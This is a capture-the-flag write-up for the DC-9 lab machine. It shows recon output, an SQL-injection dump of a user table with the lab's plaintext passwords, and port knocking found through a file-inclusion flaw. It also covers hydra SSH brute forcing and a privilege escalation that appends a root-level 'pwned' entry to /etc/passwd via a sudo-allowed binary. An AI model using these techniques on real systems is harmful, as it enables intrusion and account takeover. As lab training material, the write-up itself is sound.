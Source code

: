 # DC: 9
### Users
```
chandlerb
joeyt
janitor
fredf
```
### Credentials
```
chandlerb:UrAG0D!
joeyt:Passw0rd
janitor:Ilovepeepee
fredf:B4-Tru3-001

Website:
admin:transorbital1
```
## Recon
### Nmap Scan
```
Nmap scan report for dc-9 (192.168.1.47)
Host is up (0.00074s latency).
Not shown: 65533 closed tcp ports (reset), 1 filtered tcp port (port-unreach)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp filtered  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 00:0C:29:0F:67:5D (VMware)
```
### Web Recon
* Server: Apache/2.4.38
* Technologies: PHP
#### Nikto
```
+ Target IP:          192.168.1.47
+ Target Hostname:    192.168.1.47
+ Target Port:        80
+ Start Time:         2025-01-18 12:38:26 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.38 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /config.php: PHP Config file may contain database IDs and passwords.
+ /css/: Directory indexing found.
+ /css/: This might be interesting.
+ /includes/: Directory indexing found.
+ /includes/: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8102 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2025-01-18 12:38:42 (GMT1) (16 seconds)
```
#### FFUF
```
:: Method           : GET
 :: URL              : http://192.168.1.47/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

index.php               [Status: 200, Size: 917, Words: 43, Lines: 43, Duration: 1ms]
search.php              [Status: 200, Size: 1091, Words: 47, Lines: 50, Duration: 0ms]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1ms]
.                       [Status: 200, Size: 917, Words: 43, Lines: 43, Duration: 1ms]
.html                   [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1ms]
results.php             [Status: 200, Size: 1056, Words: 43, Lines: 55, Duration: 2ms]
.php                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1ms]
manage.php              [Status: 200, Size: 1210, Words: 43, Lines: 51, Duration: 2ms]
display.php             [Status: 200, Size: 2961, Words: 199, Lines: 42, Duration: 2ms]
welcome.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2ms]
.htm                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1ms]
session.php             [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3ms]
.htpasswds              [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1ms]
.htgroup                [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1ms]
wp-forum.phps           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 0ms]
.htaccess.bak           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 0ms]
.htuser                 [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 0ms]
.ht                     [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 0ms]
.htc                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 0ms]
```
#### SQL Injection dump
Search functionality was vulnerable to a SQL injection attack and could be used to dump the database contents.
```
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+

Database: Staff
Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```
## Foothold / Privilege Escalation
The SSH port was filtered meaning some type of firewall is blocking it or it’s temporarily closed. Since I had an LFI vulnerability present I decided to check for port knocking configuration files under /etc/knockd.conf and I found the correct sequence to open the SSH port.

Using hydra and dumped credentials from the SQL injection vulnerability I started a brute force attack and gained credentials for users chandlerb, joeyt and janitor.
```
[22][ssh] host: 192.168.1.47   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.1.47   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.1.47   login: janitor   password: Ilovepeepee
[22][ssh] host: 192.168.1.47   login: fredf   password: B4-Tru3-001
```
User janitor had a secret folder which contained collected passwords (malicious actor). And using hydra I found password for user fredf.

### Privilege Escalation
User fredf had a sudo permission to run a binary called test which executed test.py file. The python file was used for reading from a file and appending the read file to specified file. So since I could execute this action with root permissions I decided to append a new root level user to the system.
```
openssl passwd -1 -salt pwn password ==> $1$pwn$WLUErc1Owm1jbSwGklCpz1
```
```
Add to a pwn.txt file:
pwned:$1$pwn$WLUErc1Owm1jbSwGklCpz1:0:0:root:/bin/bash
```
```
sudo /opt/devstuff/test/test pwn.txt /etc/passwd
The last command appends our "pwned" root level user to the system and I can login
and pwn the system
```
## Notes
* If a port is filtered it sometimes means that a port knock needs to be performed so the port opens up
* This configuration is usually under **/etc/knockd.conf**